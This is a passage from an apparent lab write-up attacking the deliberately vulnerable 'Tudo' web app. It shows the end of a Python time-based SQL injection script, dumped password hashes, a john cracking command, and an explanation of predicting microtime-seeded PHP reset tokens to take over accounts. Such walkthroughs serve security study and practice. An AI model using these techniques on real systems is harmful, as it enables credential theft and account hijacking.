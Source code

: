 ```py
    uid = args.uid
    rhost = args.target

    '''Here we call the functions'''
    usernameExtractTimeBased(rhost,uid)
    print()
    hashExtractTimeBased(rhost,uid)
    print()
    
if __name__ == '__main__':
    main()
```

And now, it's easy to decrypt the passwords

```
admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
user1:0a041b9462caa4a31bac3567e0b6e6fd9100787db2ab433d96f6d178cabfce90
user2:6025d18fe48abd45168528f18a82e265dd98d421a7084aa09f61b341703901a3
```

```bash
john --format=raw-sha256 hashes.txt --wordlist=list.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:32:20.png)

And we got the three passwords done.

# ResetToken Spray - User1 Login

Once we got the username and passwords, let's try to make the token generator working too. Just for a good practice.

This is the function we will need to reproduce to get the token spray working fine

```php
function generateToken() {
    srand(round(microtime(true) * 1000));
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
    $ret = '';
    for ($i = 0; $i < 32; $i++) {
        $ret .= $chars[rand(0,strlen($chars)-1)];
    }
    return $ret;
}
```

Setting it to a php script

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:43:24.png)

Looking at the script, it's using the function srand, to get an arbitrary seed to generate the token value, so this value we can almost predict in python, and generate a list of possible tokens, and then get the password for the user1 and user2 changed, for the admin we cannot do that because it checks to see if it's the admin and did not generate a token for it.
